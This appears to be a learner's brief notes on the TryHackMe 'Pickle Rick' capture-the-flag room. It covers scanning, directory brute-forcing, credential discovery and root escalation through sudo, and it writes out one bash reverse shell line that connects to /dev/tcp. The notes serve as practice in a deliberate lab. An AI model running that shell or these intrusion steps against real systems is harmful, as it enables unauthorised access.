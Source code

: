 # YOU USED A ONLINE [WRITEUP](https://medium.com/@twilsonthomaz/pickle-rick-tryhackme-writeup-f40990ab6f36) CUZ UR BAD

# Things to improve
- Which wordlist to use
- Recognizing possible passwords
- reverse shells
- privesc with sudo

## nmap
returns ssh port 22 and http port 80

## dirbuster
could only find good directories with **common.txt**
found robots.txt and login.php

## Found login details in web source code and robots.txt

## Found command entry and made a reverse shell
used [gtfobins](https://gtfobins.github.io/gtfobins/bash/)
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'

## Found 1st ingredient

## Found 2nd ingredient
went to rick's home directory

## Checked for sudo permissions
su -l

## sudo to root
sudo su

## Flag in root folder
